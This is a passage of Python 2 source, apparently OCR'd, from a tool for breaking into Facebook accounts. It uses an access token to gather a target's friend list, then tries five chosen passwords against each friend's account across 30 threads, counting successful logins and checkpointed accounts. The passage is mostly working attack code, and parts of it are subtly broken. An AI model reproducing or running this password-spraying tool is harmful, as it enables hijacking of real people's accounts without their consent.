 		except:
			pass
	
	p = ThreadPool(30)
	p.map(main,id)
	print(50*"-")
	print("[!] The process has completed")
	print("[!] Total OK/CP:"+str(len(oks)))+"/"+str(len(cps))
	raw_input("[!] Press Eter To Back")
	crack()
			
def choose():
	global token
	os.system("clear")
	try:
		token = open("access_token.txt","r").read()
	except IOError:
		print("")
		print("Token Not Found OR Has CheckPoint").center(50)
		time.sleep(2)
		menu_login()
	os.system("clear")
	print banner
	print("\033[1;97m[1]\033[1;92m Crack With Public ID/Link")
	print("\033[1;97m[2]\033[1;92m Crack With Follwers ID/Link")
	print("\033[1;97m[0]\033[1;91m Main Menu Back")
	print(50*"-")
	choice_select()
def choice_select():
	select = raw_input("[!] Choose : ")
	id=[]
	oks=[]
	cps=[]
	if select =="1":
		os.system("clear")
		print banner
		idt = raw_input("\033[1;97m[!]\033[1;92m Put ID/Username  :\033[1;97m ")
		print("")
		pass1 = raw_input("\033[1;92m[1] Enter Password :\033[1;93m ")
		pass2 = raw_input("\033[1;92m[2] Enter Password :\033[1;93m ")
		pass3 = raw_input("\033[1;92m[3] Enter Password :\033[1;93m ")
		pass4 = raw_input("\033[1;92m[4] Enter Password :\033[1;93m ")
		pass5 = raw_input("\033[1;92m[5] Enter Password :\033[1;93m ")
		try:
			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)
			q = json.loads(r.text)
			os.system('clear')
			print banner
			print("\033[1;97m[!] \033[1;92mTarget User : "+q["\033[1;97mname"])
		except KeyError:
			print("")
			print("Public ID Not Found").center(50)
			print("")
			time.sleep(3)
			choose()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)
		z = json.loads(r.text)
		for i in z["data"]:
			uid = i["id"]
			na = i["name"]
			nm = na.rsplit(" ")[0]
			id.append(uid+"|"+nm)
	elif select =="2":
		os.system("clear")